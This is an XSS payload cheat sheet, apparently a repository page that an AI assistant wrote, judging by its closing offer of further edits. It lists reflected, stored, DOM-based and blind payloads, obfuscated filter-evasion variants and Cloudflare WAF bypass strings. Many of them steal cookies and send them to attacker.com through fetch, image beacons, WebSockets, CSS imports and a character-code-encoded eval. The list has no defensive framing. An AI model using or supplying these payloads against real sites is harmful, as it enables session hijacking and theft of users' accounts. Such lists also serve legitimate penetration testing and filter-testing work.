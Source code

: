 ------
**Cross-Site Scripting (XSS) Payloads**

## **Reflected Cross-Site Scripting (XSS)**

### **1. Basic Alert:**
```html
<script>alert('XSS');</script>
```

### **2. Stealing Cookies:**
```html
<script>fetch('http://attacker.com/log?cookie=' + document.cookie);</script>
```

### **3. Redirecting the User:**
```html
<script>window.location='http://attacker.com';</script>
```

```html
<input type="text" value="<script>alert(123)</script>">
```

### **4. Bypassing Filters (Using Encoded Characters):**
```html
<img src=x onerror=alert('XSS')>
```
**Encoded Version:**
```html
%3Cimg%20src%3Dx%20onerror%3Dalert%281%29%3E
```

### **5. Using Event Handlers:**
```html
<a href="#" onclick="alert(1)">Click me!</a>
<a href="javascript:alert(1)">Click me</a>
```

### **6. Advanced Payload (Using IIFE):**
```html
<script>(()=>{alert('XSS')})()</script>
<img src="x" onerror="alert&#40;'XSS'&#41;">
<iframe src="javascript:alert(1)"></iframe>
<a href="javascript:alert(1)">Click me</a>
```

---

## **Stored Cross-Site Scripting (Stored XSS)**

### **1. Simple Alert Box:**
```html
<script>alert('XSS');</script>
```

### **2. Stealing Cookies:**
```html
<script>fetch('https://attacker.com/log?cookie=' + document.cookie);</script>
```

### **3. Session Hijacking using Image Tag:**
```html
<img src="x" onerror="fetch('https://attacker.com/log?cookie='+document.cookie)">
```

### **4. Automatic Redirection:**
```html
<script>window.location='https://attacker.com'</script>
```

### **5. Advanced Payloads:**
```html
<svg onload=alert('XSS')>
<input type="text" value="" onfocus="alert('XSS')" autofocus>
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>
<script>(function(){alert('XSS')})()</script>
```

---

## **DOM-Based Cross-Site Scripting (DOM XSS)**

### **1. URL Parameter Exploitation:**
```html
http://example.com/page.html?name=<script>alert('XSS')</script>
```

### **2. Location Hash Manipulation:**
```html
http://example.com/page.html#<img src=x onerror=alert('XSS')>
```

### **3. document.referrer Exploitation:**
```html
<a href="http://example.com/vulnerablePage.html">Go to vulnerable site</a>
```

### **4. Using localStorage:**
```html
localStorage.setItem('user', '<img src=x onerror=alert("XSS")>');
location.reload();
```

### **5. Bypassing Filters with eval():**
```html
http://example.com/page.html?data=alert('XSS')
```

### **6. location.search with innerHTML:**
```html
http://example.com/page.html?message=<svg/onload=alert('XSS')>
```

---

## **Basic Blind XSS Payloads**

### **1. Basic Exfiltration using `<script>`:**
```html
<script>new Image().src='https://attacker.com/log?cookie='+document.cookie;</script>
```

### **2. Using fetch() for Stealth:**
```html
<script>
fetch('https://attacker.com/log', {
method: 'POST',
mode: 'no-cors',
body: 'cookie=' + document.cookie + '&url=' + location.href
});
</script>
```

### **3. Stealing Data with an `<img>` Tag:**
```html
<img src="https://attacker.com/log?data=" + document.cookie>
```

---

## **Obfuscated and Filter Evasion Techniques**

### **1. Encoded Characters:**
```html
<script>eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,97,116,116,97,99,107,101,114,46,99,111,109,47,108,111,103,63,99,111,111,107,105,101,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41));</script>
```

### **2. Bypassing Filters with SVG:**
```html
<svg onload="fetch('https://attacker.com/log?cookie='+document.cookie)">
```

### **3. Using setTimeout:**
```html
<script>setTimeout(function(){fetch('https://attacker.com/log?cookie='+document.cookie)}, 2000);</script>
```

---

## **Stealthy Payloads for Non-Script Contexts**

### **1. Using an HTML Attribute:**
```html
<iframe srcdoc="<script>new Image().src='https://attacker.com/log?cookie='+document.cookie;</script>"></iframe>
```

### **2. CSS-Based Payload:**
```html
<style>@import 'https://attacker.com/log?cookie='+document.cookie;</style>
```

### **3. Exfiltrating via WebSocket:**
```html
<script>
let ws = new WebSocket("wss://attacker.com/socket");
ws.onopen = function() {
ws.send(document.cookie);
};
</script>
```

---

## **Cloudflare Bypass Techniques**
```html
<select><style></select>
<svg onload=alert(1)></style>
"><img src=x onerrora=confirm() onerror=confirm(1)>
<DETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt, a(origin)%20x>
<svg onload=alert&#0000000040"1")><">
<svg%20onx=()%20onload=(confirm) (document.domain)> &#34;><track/onerror=&#x27;confirm\%601\%60&#x27;>
"/><img%20s+src+c=x%20on+onerror+%20="alert(1)">
"></script>"><--<img+src= "><svg/onload=alert(document.cookie)>> --!>
```

This structured document categorizes XSS payloads based on their types, use cases, and evasion techniques. Let me know if you need further modifications or additions!


